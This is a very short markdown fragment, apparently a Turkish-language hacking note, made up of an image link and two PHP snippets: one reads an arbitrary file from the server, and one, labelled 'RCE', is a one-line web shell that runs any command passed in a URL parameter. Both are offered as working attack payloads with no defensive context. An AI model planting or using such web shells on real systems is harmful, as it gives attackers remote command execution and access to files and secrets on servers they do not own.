 
```php title:"dosyayı okumak için"
<?php echo file_get_contents('/path/to/target/file'); ?>
```

```php title:'RCE => /example/exp.php?command=id'
<?php echo system($_GET['command']); ?>
```

